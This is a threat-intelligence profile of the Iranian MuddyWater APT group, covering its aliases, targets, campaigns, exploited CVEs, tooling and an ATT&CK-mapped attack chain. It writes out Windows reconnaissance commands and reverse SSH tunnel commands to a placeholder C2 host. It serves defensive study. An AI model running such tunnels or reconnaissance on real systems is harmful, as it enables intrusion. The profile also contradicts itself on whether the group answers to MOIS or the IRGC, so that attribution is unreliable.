




---
## Overview

MuddyWater is an Iranian government-sponsored APT group linked to the Ministry of Intelligence and Security (MOIS). Active since at least 2017, it primarily conducts cyberespionage against government, telecommunications, defense, energy, financial, and technology organizations.

The group uses spear-phishing, malicious links and attachments, compromised accounts, and exploited vulnerabilities to gain access. It then relies on tools such as PowerShell, credential stealers, remote-management software, and custom malware to maintain access and collect sensitive information. MuddyWater is also known as Seedworm, Static Kitten, and MERCURY.


_MuddyWater APT_

---
## Aliases
**MuddyWater** is believed by organizations like CISA and the UK NCSC to operate under Iran’s Islamic Revolutionary Guard Corps (IRGC). This makes it different from groups linked to Iran’s Ministry of Intelligence and Security (MOIS), such as **OilRig**. **MuddyWater** is tracked under multiple aliases across vendors and intelligence organizations :
- TA450
- ITG17
- Seedworm
- MERCURY
- Mango Sandstorm
- Static Kitten
- Earth Vetala
- TEMP.Zagros
- Cobalt Ulster
- ATK 51
- T-APT-14
- Boggy Serpens
- Yellow Nix
- G0069
- MuddyKrill
---
## Victims
MuddyWater is targeting aligns closely with Iran’s intelligence and regional geopolitical objectives, with a strong focus on espionage, intelligence collection, and maintaining access to targeted organizations
### Target Sectors
- Aerospace & Defense
- Education
- Government
- Healthcare
- Media & Internet
- Telecommunications
- Transportation
- Energy
- Utilities & Waste
- IT
- SMBs
### Target Systems
- ESXi
- Linux
- Windows
- Android
### Geographic Focus
- Southern Africa
- East Asia
- South Asia
- Southeast Asia
- Europe
- Middle East
- North America
- South America

---
## History of Operation

MuddyWater has conducted a long running series of espionage and intelligence collection operations since its first public in 2017. The group initially relied on malicious Office documents, PowerShell payloads, and custom backdoors such as POWERSTATS.

- **2017 – POWERSTATS Campaign:**  
    MuddyWater targeted organizations globally using obfuscation documents that deployed the POWERSTATS first stage backdoor, enabling initial access and PowerShell based payload delivery.
- **2018 – Seedworm Campaign:**  
    The group expanded operations across the Middle East, Europe, and North America, deploying tools like Powermud, LaZagne, and CrackMapExec for credential dumping, scheduled task persistence, and HTTP based control.
- **2020–2021 – PowGoop and Mori Deployment:**  
    MuddyWater used PowGoop is a DLL side loading loader combined with a PowerShell downloader, and Mori, a specialized backdoor utilizing DNS tunneling for covert C2 communications.
- **2022 – Attribution and RATs Pivot:**  
    MuddyWater shifted to using systematically deploying legitimate RATs tools for using, starting with SimpleHelp and cycling through tools like Atera, ScreenConnect, and Syncro to bypass antivirus signatures.
- **2023 – Destructive Operations & PaperCut Exploitation:**  
    The group partnered with affinity actors to execute destructive ransomware attacks against a Middle Eastern educational institution using the DarkBit persona. They also exploited vulnerabilities like CVE-2023-27350 in PaperCut for initial access.
- **2024 – Custom Implants & ClickFix Campaigns:**  
    MuddyWater deploying BugSleep and MuddyRot to replace commercial tools, in same time highly targeted Microsoft themed "ClickFix" phishing lures against Middle Eastern organizations.
- **2024–2025 – DCHSpy Mobile Surveillance:**  
    The group expanded into mobile surveillance by deploying DCHSpy, an Android Trojan masquerading as banking and VPN apps, to exfiltrate call logs, SMS messages, location data, and WhatsApp communications.
- **2025 – Phoenix & MuddyViper Operations:**  
    Operations targeted over 100 government and critical infrastructure organizations across the MENA region using Phoenix Backdoor v4 and the MuddyViper framework, using droppers disguised as the classic Snake game.
- **2025–2026 – Energy and Maritime Campaign:**  
    MuddyWater executed a four wave spear phishing offensive against a Middle Eastern energy and maritime entity, using social engineering, personalized airline reservation deceptions, and the Nuso HTTP backdoor.


_The History of Operation_

---
## Common Vulnerabilities and Exposures (CVEs)

MuddyWater has used several known vulnerabilities in enterprise systems, remote access tools, and security products to gain access, escalate privileges, and execute code, including:**

- **CVE-2026-1731** — BeyondTrust Remote Support / Privileged Remote Access OS Command Injection
- **CVE-2026-1281** — Ivanti Endpoint Manager Mobile (EPMM) Code Injection
- **CVE-2025-68613** — n8n Improper Control of Dynamically-Managed Code Resources
- **CVE-2025-55182** — React Server Components Remote Code Execution
- **CVE-2025-52691** — SmarterTools SmarterMail Unrestricted File Upload
- **CVE-2025-5777** — Citrix NetScaler ADC/Gateway Out-of-Bounds Read
- **CVE-2025-68613** — n8n Improper Control of Dynamically-Managed Code Resources
- **CVE-2024-55591** — Fortinet FortiOS/FortiProxy Authentication Bypass
- **CVE-2024-23113** — Fortinet FortiOS/FortiProxy Format String Vulnerability
- **CVE-2023-6895** — Hikvision Intercom Broadcasting System OS command injection / unauthenticated remote code execution
- **CVE-2023-27350** — PaperCut NG/MF Remote Code Execution
- **CVE-2022-42475** — Fortinet FortiOS/FortiProxy Heap-Based Buffer Overflow
- **CVE-2021-45046** — Apache Log4j2 Remote Code Execution / Information Disclosure
- **CVE-2021-44228** — Apache Log4j2 Remote Code Execution (Log4Shell)
- **CVE-2020-1472** — Microsoft Netlogon Remote Protocol Elevation of Privilege (ZeroLogon)
- **CVE-2020-0688** — Microsoft Exchange Server Remote Code Execution
- **CVE-2017-7921** — Hikvision IP Camera Authentication Bypass
- **CVE-2017-0199** — Microsoft Office/Word Remote Code Execution
---
## Tools Used 
MuddyWater has been associated with the following malware, offensive-security tools, remote-management utilities, and credential-theft tools:
### Malware & Backdoors
- BugSleep
- Canopy
- POWERSTATS
- PowGoop
- Small Sieve
- Mori
- Survey Script
- PRB-Backdoor
- Blackout
- AnchorRat
- CannonRat
- Neshta
- Sad C2
- TreasureBox
- BlackPearl
- CHAR
- GhostFetch
- GhostBackDoor
- HTTP_VIP
- Phoenix
### RATs
- SyncroRAT
- Atera
- ScreenConnect
- Rport
- eHorus
- Remote Utilities
### Credential Theft & Memory Dump
- Mimikatz
- LaZagne
- LSASS Dumper
- Password Dumper
- ProcDump
- MiniDump
### Post-Exploitation and C2 Frameworks
- Meterpreter
- Havoc
- Cobalt Strike
- CrackMapExec
- PowerShell
### Tunneling, Proxy, and Network Tools
- Ligolo
- SharpChisel
- SOCKS5 proxy servers
- Hidec
- Nping
---
## Attack Chain Overview
MuddyWater uses a combination of **spear-phishing, malicious Microsoft Office documents, PowerShell, legitimate remote-access software, DLL side-loading, custom backdoors, and SSH tunneling** to establish and maintain access to targeted environments.


_Attack Chain Operation_

### 1. Initial Access

**Techniques:**  `T1566.001 – Spearphishing Attachment`  | `T1133 – External Remote Services`

MuddyWater commonly gains initial access through targeted phishing emails containing malicious Microsoft Office documents. In Operation Olalampo, the documents used tailored themes related to accounting, energy, marine services, flight tickets, and business reports. The malicious documents contain embedded VBA macros designed to initiate the infection chain after execution.

MuddyWater obtained access through an RDP login, demonstrating the group's use of externally accessible remote services.



### 2. Execution

**Techniques:**  `T1204.002 – User Execution: Malicious File` | `T1059.001 – PowerShell` | `T1059.005 – Visual Basic

After the victim opens the malicious Office document and enables macros, VBA code executes and initiates the next stage of the infection. MuddyWater uses PowerShell to execute commands, deploy additional payloads, and perform post-exploitation operations.

During Operation Olalampo, multiple malware components were deployed, including GhostFetch, HTTP_VIP, CHAR, and GhostBackDoor.

### 3. Defense Evasion

**Techniques:** `T1027 – Obfuscated Files or Information` | `T1140 – Deobfuscate/Decode Files or Information` | `T1497 – Virtualization/Sandbox Evasion` | `T1055 – Process Injection`

MuddyWater uses multiple techniques to evade security tools. Office macros and GhostFetch decode embedded data and AES-encrypted PE payloads before execution. GhostFetch also performs environmental checks, including VM, debugger, hardware, and user activity detection, to identify and evade sandbox analysis.

### 4. Persistence

**Techniques:** `T1543.003 – Windows Service` | `T1547.001 – Registry Run Keys / Startup Folder` | `T1053.005 – Scheduled Task`

MuddyWater establishes persistence through different mechanisms depending on the malware family and campaign. GhostBackDoor can install itself as a Windows service named `MicrosoftVersionUpdater` when sufficient privileges are available. 

Other campaigns have involved registry modifications and scheduled tasks to maintain execution after system restarts or user logins.

### 5. Discovery

**Techniques:** ` T1082 – System Information Discovery` | `T1016 – System Network Configuration Discovery` | `T1087 – Account Discovery` | `T1069 – Permission Groups Discovery` | `T1482 – Domain Trust Discovery` | `T1057 – Process Discovery`

1. Identify the compromised system's operating system, hardware, and hostname.

```
systeminfo
hostname
whoami
```

2. Identify network interfaces, routing information, DNS configuration, and external IP address.

```
ipconfig /all
route print
nslookup
curl ifconfig.me
```

3. Enumerate local and domain user accounts.

```
net user
net user /domain
```

4. Identify local and domain groups and discover administrator privileges.

```
whoami /priv
net localgroup
net localgroup administrators
net group "Domain Admins" /domain
```

5. Discover Active Directory domain trusts and domain controllers.

```
nltest /domain_trusts
nltest /dclist:<domain>
```

6. Enumerate running processes and verify whether a specific process is active.

```
tasklist
tasklist /v
tasklist | findstr /i "FMAPP"
```

### 6. Credential Access

**Techniques:** `T1555.003 – Credentials from Web Browsers`

MuddyWater has used custom credential-stealing capabilities to collect credentials stored in web browsers. Chromium_Stealer, which targets browser data from applications such as Chrome, Edge, Opera, and Brave. The collected information was stored locally in a file named `cobe-notes.txt`.

### 7. Command and Control (C2)

**Techniques:** `T1071.001 – Web Protocols` | `T1102.002 – Bidirectional Communication` | `T1572 – Protocol Tunneling` | `T1573 – Encrypted Channel`

MuddyWater uses multiple C2 mechanisms depending on the deployed malware :

- HTTP C2: HTTP_VIP communicates with attacker-controlled infrastructure to register compromised systems, receive instructions, and retrieve additional payloads.
    
- Telegram C2: CHAR uses a Telegram bot to receive commands and execute CMD or PowerShell operations.
    
- SSH tunneling: Huntress observed Windows OpenSSH establishing reverse SSH tunnels to attacker-controlled infrastructure.
    
- Encrypted communication: GhostBackDoor uses AES-encrypted communications to exchange information with its C2 infrastructure.

### 8. Lateral Movement

Techniques: `T1021.001 – Remote Services: RDP` | `T1021.004 – Remote Services: SSH`

MuddyWater uses remote access services to interact with compromised systems and establish remote connectivity. RDP provides interactive access to Windows hosts, while Windows OpenSSH was observed establishing SSH reverse tunnels to attacker controlled infrastructure.

Commands:

1. T1021.001 – RDP

```
mstsc.exe
```

Connect to a remote Windows host:

```
mstsc /v:<target_ip>
```

2. T1021.004 – SSH

Connect to an attacker controlled server:

```
ssh.exe <user>@<C2>
```

Establish a reverse SSH tunnel:

```
ssh.exe -p 22 -o StrictHostKeyChecking=no <user>@<C2> -N -R 10841

ssh.exe -p 22 -o StrictHostKeyChecking=no <user>@<C2> -N -R 8585
```

### 9. Collection

**Techniques:** `T1005 – Data from Local System` | `T1115 – Clipboard Data`

- MuddyWater malware provides capabilities for collecting information from compromised systems. GhostBackDoor supports local file operations, while HTTP_VIP includes file handling capabilities.

- HTTP_VIP includes clipboard collection functionality, potentially allowing attackers to obtain sensitive information copied by users.

### 10. Exfiltration

**Techniques:** `T1041 – Exfiltration Over C2 Channel`

- MuddyWater can transfer collected information through its established C2 infrastructure.
  GhostBackDoor and HTTP_VIP support file transfer functionality.

- The availability of file upload functionality should not automatically be treated as proof of successful data exfiltration in a particular intrusion.

---
## MITRE ATT&CK Mapping

| Tactic               | Technique ID | Technique Name                                        |
| -------------------- | ------------ | ----------------------------------------------------- |
| Initial Access       | T1190        | Exploit Public-Facing Application                     |
|                      | T1078        | Valid Accounts                                        |
|                      | T1078.002    | Valid Accounts: Domain Accounts                       |
| Execution            | T1059        | Command and Scripting Interpreter                     |
|                      | T1059.001    | PowerShell                                            |
|                      | T1059.003    | Windows Command Shell                                 |
| Persistence          | T1547        | Boot or Logon Autostart Execution                     |
|                      | T1547.001    | Registry Run Keys / Startup Folder                    |
|                      | T1136        | Create Account                                        |
| Privilege Escalation | T1068        | Exploitation for Privilege Escalation                 |
| Defense Evasion      | T1562        | Impair Defenses                                       |
|                      | T1112        | Modify Registry                                       |
|                      | T1027        | Obfuscated Files or Information                       |
|                      | T1484.001    | Domain Policy Modification: Group Policy Modification |
| Credential Access    | T1552        | Unsecured Credentials                                 |
| Discovery            | T1046        | Network Service Discovery                             |
|                      | T1087        | Account Discovery                                     |
|                      | T1087.002    | Account Discovery: Domain Account                     |
|                      | T1482        | Domain Trust Discovery                                |
| Lateral Movement     | T1021        | Remote Services                                       |
|                      | T1021.001    | Remote Desktop Protocol                               |
|                      | T1021.002    | SMB/Windows Admin Shares                              |
|                      | T1021.004    | SSH                                                   |
| Collection           | T1074        | Data Staged                                           |
|                      | T1074.001    | Local Data Staging                                    |
|                      | T1039        | Data from Network Shared Drive                        |
| Exfiltration         | T1048        | Exfiltration Over Alternative Protocol                |
|                      | T1048.001    | Exfiltration Over Symmetric Encrypted Non-C2 Protocol |
| Command and Control  | T1071        | Application Layer Protocol                            |
|                      | T1071.001    | Web Protocols                                         |
|                      | T1219        | Remote Access Software                                |
| Impact               | T1486        | Data Encrypted for Impact                             |
|                      | T1489        | Service Stop                                          |

---
